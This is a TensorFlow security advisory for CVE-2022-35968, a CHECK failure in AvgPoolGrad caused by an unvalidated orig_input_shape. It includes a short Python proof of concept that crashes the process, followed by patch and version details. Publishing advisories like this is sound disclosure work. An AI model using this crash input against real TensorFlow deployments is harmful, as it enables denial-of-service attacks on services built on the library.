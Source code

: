 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-100.md
## TFSA-2022-100: `CHECK` fail in `AvgPoolGrad`

### CVE Number
CVE-2022-35968

### Impact
The implementation of `AvgPoolGrad` does not fully validate the input `orig_input_shape`. This results in a `CHECK` failure which can be used to trigger a denial of service attack:
```python
import tensorflow as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "VALID"
data_format = "NHWC"
orig_input_shape = tf.constant(-536870912, shape=[4], dtype=tf.int32)
grad = tf.constant(.0890338004362538, shape=[1,5,7,1], dtype=tf.float64)
tf.raw_ops.AvgPoolGrad(orig_input_shape=orig_input_shape, grad=grad, ksize=ksize, strides=strides, padding=padding, data_format=data_format)
```

### Patches
We have patched the issue in GitHub commit [3a6ac52664c6c095aa2b114e742b0aa17fdce78f](https://github.com/tensorflow/tensorflow/commit/3a6ac52664c6c095aa2b114e742b0aa17fdce78f).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
